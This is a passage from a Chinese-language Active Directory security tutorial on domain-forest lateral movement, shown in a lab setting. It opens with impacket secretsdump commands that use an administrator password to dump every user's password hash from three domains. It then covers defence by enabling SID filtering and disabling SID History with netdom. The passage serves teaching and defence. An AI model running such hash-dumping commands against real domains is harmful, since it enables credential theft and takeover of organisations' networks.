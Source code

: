也可以执行如下命令通过 impacket 导出不同域所有用户的哈希。

```
#导出域 xie.com 内所有用户的哈希
python3 secretsdump.py xie/administrator:P@ssword1234@10.211.55.4 -just-dc
#导出域 shanghai.xie.com 内所有用户的哈希
python3 secretsdump.py xie/administrator:P@ssword1234@10.211.55.13 -just-dc
#导出域 beijing.xie.com 内所有用户的哈希
python3 secretsdump.py xie/administrator:P@ssword1234@10.211.55.14 -just-dc
```

## 域林横向攻击防御

### SID 过滤

在同一个域森林内部，SID History 属性没有被 SID 过滤机制保护，导致攻击者可以利用 SID History 属性进行权限提升。而在跨森林的域信任关系中，SIDHistory 属性被 SID 过滤机制所保护，因此攻击者无法通过 SID History 属性进行跨森林横向攻击。这也是微软宣传的域森林是活动目录的安全边界的原因所在。因此，**针对域林横向攻击防御的最佳手段就是配置域森林内部的 SID 过滤**。

#### 如何开启 SID 过滤

使用微软官方提供的 netdom 工具来开启 SID 过滤。

使用 netdom 执行如下命令开启域 shanghai.xie.com 到域 xie.com 的 SID 过滤。

```
netdom trust /d:shanghai.xie.com xie.com /quarantine:yes
```

![截图](48658b6140ae67ea98a775a29891052b.png)

### 禁用 SID History

禁用之前一定要确保当前域内正常的资源访问不涉及到 SID History。禁用 SID History 可以使用微软提供的 netdom 工具，执行如下命令即可禁用：

```
#禁用 shanghai.xie.com 到 xie.com 的 SID History
netdom trust /d:shanghai.xie.com xie.com /EnableSIDHistory:no
#禁用 beijing.xie.com 到 xie.com 的 SID History
netdom trust /d:beijing.xie.com xie.com /EnableSIDHistory:no
```

![截图](ddd7860e35929f7438833cd81f5d7ae6.png)